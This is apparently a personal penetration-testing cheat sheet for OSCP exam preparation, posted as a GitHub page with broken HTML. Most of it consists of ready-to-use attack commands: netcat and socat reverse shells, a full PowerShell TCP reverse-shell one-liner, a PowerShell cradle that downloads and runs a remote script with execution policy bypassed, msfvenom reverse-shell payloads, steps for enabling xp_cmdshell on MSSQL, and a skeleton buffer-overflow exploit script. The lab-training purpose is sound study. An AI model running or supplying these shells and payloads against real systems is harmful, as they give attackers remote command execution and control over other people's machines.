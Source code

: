 <h1>General Reference list (Incomplete)</h1>
<h4>I will add to this more as have more time/h4>

<h3>#search for public exploits</h3> 

<p>Searchsploit\
Google\
github</p>

<h3>#Serve content<h3/>Cancel changes
 
<p>python3 -m http.server 80
 python2 -m SimpleHTTPServer 80</p>
 
<h3>#Linux download commands</h3> 
<p>wget 
curl
w3m
elinks</p>

<h3>#windows download commands</h3>
<p>certutil.exe -urlcache -f http://serverip/port</p>

<h3>#spawn tty shells</h3>

<p>python -c 'import pty; pty.spawn("/bin/sh")'
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/sh -i
perl —e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
exec "/bin/sh"
in vi editor - :!bash 
in vi editor - :set shell=/bin/bash:shell
in nmap - !sh
socat file:`tty`,raw,echo=0 tcp-listen:666
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:xxx.xxx.xxx.xxx:666
nc -lnvp 666 #listener
nc ip port –e /bin/bash #reverse shell netcat needs to be upgraded with above shells. </p>

<h3>#Linux permission search</h3>
<p>find /usr/bin/ -perm -u=s # set uids 

find / -writable -type d 2>/dev/null # world-writeable folders
find / -perm -777 -type d 2>/dev/null # world-writeable folders

find / -perm -o w -type d 2>/dev/null # world-writeable folders

find / -perm -o x -type d 2>/dev/null # world-executable folders

find / \( -perm -o w -perm -o x \) -type d 2>/dev/null # world-writeable & executable folder</p>


<h3>#communicate with msssql</h3>

<p>#basic mysql stuff to login and database 
mysql -u <username> -p <password;
show databases;
use <table>;
show tables;
select * from <table>;

sqsh

xpcmdshell #is what you want to use in mssql with sqsh to get a command shell. If you dont have permission and its misconfigured, this is how you get a shell in sql. 
1> xp_cmdshell 'whoami';
2> go
Msg 15281, Level 16, State 1 error so we enable since we are sa account

1> EXEC sp_configure 'show advanced options', 1;
2> go
Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE
statement to install.
(return status = 0)
1> RECONFIGURE; 
2> go
1> EXEC sp_configure 'xp_cmdshell', 1;
2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to
install.
(return status = 0)
1> RECONFIGURE;
2> go

1> xp_cmdshell 'whoami';
2> go
</p>

<h3>#windows powershell Reverse shell and powershell command to download and run as soon as its done downloading the file and to run the function in it.</h3>

<p>powershell.exe','-NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "&{$client = New-Object System.Net.Sockets.TCPClient(\"iptoconnectto\",port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \"PS \" + (pwd).Path + \"^> \";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()}"'
powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "iex ((New-Object System.Net.WebClient).DownloadString('http://server:port/powershellfile.ps1'));Invoke-functiontocallfromyourps1"</p>



<h3>###########MSF venom###########</h3>
<p>#Format
msfvenom -p <payload> -f <ext> LHOST=<ip> LPORT=<port>

#Always check payload type!!
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f exe -o shell.exe

#ALWAYS USE STAGELESS PAYLOADS FOR NC REVERSE SHELL

if !(shell_return){ #if no shell returns arch problem else if shell died payload problem
	arch problem;
elseif (shell_died_instantly)){
	payload problem;
	}	
}

#Staged payload = split into 2 areas, 1st to initiate connection, rest to send actual payload ==> reverse_tcp
#Stageless payload = all in one, suitable for nc listeners bcx it is stable ==> shell_reverse_tcp

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.95 LPORT=80 -f exe -o shell.exe </p>



<h3>#######################Buffer Overflow section##################</h3>
<p>When you have a server or program that is on your network, and it is vulnerable to buffer overflow bad things happen. 

https://steflan-security.com/complete-guide-to-stack-buffer-overflow-oscp/

#!/usr/bin/python
import socket
import time
import sys
badchars = ("")
filler = "Z" * xxx
eip =  "\x00\x00\x00\x00" 
offset = "x" * xxx
end = "\r\n" #return or enter if needed 
nops = "\x90" * 10

try:
    print "\nThis is my boom stick!"

    inputbuffer = filler
    s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.0.0", 666))
    s.send(inputbuffer)
    s.close()
    print "derka derka" 

except:
    print "\nSomething Went wrong"
    sys.exit()


find open port and ip 
send string until eip is overflown 
send pattern from msf-pattern_create
send pattern from msf and check offset 
gain control of eip and look for jump in assembly instructions from monamodules (make sure protections arent on in the thingy you find)
find the address for jump and stick in eip 
generate shell code and launch 

msf-pattern_create -l 
msf-pattern_offset -l -q 
!mona modules 
!mona find -s "\x00\x00" -m module </p>

<h3>#######################Links and other section####################</h3>

<p>Tools 
https://github.com/codingo/Reconnoitre

Upgrading shells
https://netsec.ws/?p=337



https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
https://netsec.ws/?p=337

https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/

JSON token
https://medium.com/dev-bits/a-guide-for-adding-jwt-token-based-authentication-to-your-single-page-nodejs-applications-c403f7cf04f4

https://recipeforroot.com/


Window privesc:-
http://www.fuzzysecurity.com/tutorials/16.html
https://github.com/abatchy17/WindowsExploits
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc     <<warning may have automated exploitation in it.
https://www.roguesecurity.in/2018/12/02/a-guide-for-windows-penetration-testing/
https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html


IMPORTANT****
snapd
https://github.com/initstring/dirty_sock

Breaking restrected shells
https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells </p>


<h3>#####Tools you can use If your doing oscp######</h3>
<p>SUID3NUM 
winpeas 
linpeas < 2.7.0 
lse.sh (google it) 
nmapautomator #If you want automation because it only scans one host i made a suppliment script (https://github.com/pyro0ownz/nmapAutomator)
AutoRecon </p>


<p><b>More to come when i can gather my thoughts and play with some more stuff. Wish you luck and hope this helps!</b></p>

 
